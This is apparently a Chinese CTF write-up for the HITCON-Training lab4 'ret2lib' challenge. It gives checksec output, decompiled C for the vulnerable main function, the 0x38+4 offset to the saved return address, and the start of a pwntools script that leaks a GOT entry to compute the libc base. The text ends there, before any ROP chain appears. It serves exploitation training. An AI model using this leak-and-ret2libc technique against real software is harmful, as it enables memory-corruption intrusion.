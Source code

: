 ## Lab4——ret2lib ##

### 防护 ###

开启了NX，无法使用ret2sc。

```
liwc@ubuntu:~/pwn/HITCON-Training/LAB/lab4$ checksec ret2lib
[*] '/home/liwc/pwn/HITCON-Training/LAB/lab4/ret2lib'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

### 分析 ###

程序首先会主动leak出任意地址，可以通过这一点leak got表获取libc的加载基址，然后构造rop链即可。

注意在Print_message中dest离eip的偏移为0x38 + 4

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char **v3; // ST04_4
  int v4; // ST08_4
  char src; // [esp+12h] [ebp-10Eh]
  char buf; // [esp+112h] [ebp-Eh]
  _DWORD *v8; // [esp+11Ch] [ebp-4h]

  puts("###############################");
  puts("Do you know return to library ?");
  puts("###############################");
  puts("What do you want to see in memory?");
  printf("Give me an address (in dec) :");
  fflush(stdout);
  read(0, &buf, 0xAu);
  v8 = (_DWORD *)strtol(&buf, v3, v4);
  See_something(v8);
  printf("Leave some message for me :");
  fflush(stdout);
  read(0, &src, 0x100u);
  Print_message(&src);
  puts("Thanks you ~");
  return 0;
}
```

exp如下：

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/i386-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./ret2lib")
p = process("./ret2lib")

p.recvuntil(":")
p.send(str(elf.got['__libc_start_main']))
addr = int(p.recvline().split(": ")[-1].strip(), 16)

libc.address = addr - libc.symbols['__libc_start_main']
```